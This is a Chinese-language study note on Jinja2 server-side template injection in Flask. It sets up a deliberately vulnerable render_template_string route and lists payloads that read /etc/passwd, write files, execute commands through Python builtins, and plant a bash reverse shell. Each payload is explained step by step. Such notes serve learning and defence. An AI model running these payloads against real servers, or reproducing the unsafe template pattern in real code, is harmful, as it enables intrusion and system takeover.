 # 环境搭建
- Windows 10
- python3
- flask
- jinja2

# 测试代码
```
from flask import Flask, render_template, render_template_string

app = Flask(__name__)  
 
@app.route("/user/<name>")
def user(name):
    template = '''
    <h3>%s</h3>
    '''%(name)
    return render_template_string(template)

if __name__ == "__main__":  
    app.run() 

```
就是把url user后面的name输出出来
> 注意这里面如果使用render_template带入html模板的话就不会产生这个问题，将html模板通过`{%% extends "layout.html" %%}`引入到python中也会出现这个问题

# 常见payload解析
## 常见payload
```
python2
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
#假设在/usr/lib/python2.7/dist-packages/jinja2/environment.py, 弹一个shell
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/usr/lib/python2.7/dist-packages/jinja2/environment.py').write("\nos.system('bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1')") }}

python3
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```
常见的payload的思路都常常是利用python内置的变量属性等出发·通过调用一些隐藏的属性（方法）从而实现代码输入

```
# 命令执行
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
	{% endif %}
{% endfor %}
```
- 当输入这段payload的时候，这段标签会被当做模板中的标签来解析
- 首先这个使用了一个循环和if的jinja2的结构找到了一个内置的类catch_warnings，
- 然后通过一个特殊的属性`__globals__`找到了当前函数所在命名空间下的所有变量
`__globals__` *这个属性是python所有函数都包含的一个属性，调用这个属性会返回所在模块命名空间里面的所有变量*
- 然后利用每个python都会加载builtins这个模块而这个模块中有eval、exec、open等函数，然后就构成了代码注入
- 说是这么说，在做还不会

# 相关文档
- 掘金[Flask jinja2模板注入思路总结](https://juejin.im/entry/5a91040ef265da4e9268410ehttps://juejin.im/entry/5a91040ef265da4e9268410e)
- Freebuf[探索Flask/Jinja2中的服务端模版注入](https://www.freebuf.com/articles/web/98619.html)
- csdn[内置函数+内置变量+内置模块](https://blog.csdn.net/nameix/article/details/54341949)
